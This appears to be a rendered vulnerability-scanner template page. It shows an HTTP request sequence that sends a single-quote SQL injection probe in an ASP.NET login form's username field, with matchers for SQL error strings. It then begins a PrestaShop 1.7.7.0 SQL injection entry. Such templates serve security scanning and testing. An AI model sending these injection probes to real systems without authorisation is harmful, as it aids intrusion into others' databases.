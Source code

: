 ```
GET / HTTP/1.1
Host: {{Hostname}}

```
### Step - 2
```
POST / HTTP/1.1
Host: {{Hostname}}
Referer: {{BaseURL}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded

__EVENTTARGET=cmdOK&__EVENTARGUMENT=&__VIEWSTATE={{url_encode("Â{{VSÂ}}")}}&__VIEWSTATEGENERATOR={{url_encode("Â{{VSGÂ}}")}}&__EVENTVALIDATION={{url_encode("Â{{EVÂ}}")}}&txtID=uname%27&txtPW=passwd&hdnClientDPI=96

```
### Matchers

**Type - word**
- part - body
- condition - and
- words
    1. System.Data.SqlClient.SqlException
    2. Incorrect syntax near
    3. _ACCOUNTLOCKED
### Extractors

**Type - xpath**
- name - VS
- internal - True
- attribute - value
- xpath
    1. /html/body/form/div/input[@id='__VIEWSTATE']

**Type - xpath**
- name - VSG
- internal - True
- attribute - value
- xpath
    1. /html/body/form/div/input[@id='__VIEWSTATEGENERATOR']

**Type - xpath**
- name - EV
- internal - True
- attribute - value
- xpath
    1. /html/body/form/div/input[@id='__EVENTVALIDATION']

---
# PrestaShop 1.7.7.0 SQL Injection
## Description
- The store system in PrestaShop 1.7.7.0 allows time-based boolean SQL injection via the module=productcomments controller=CommentGrade id_products[] parameter.
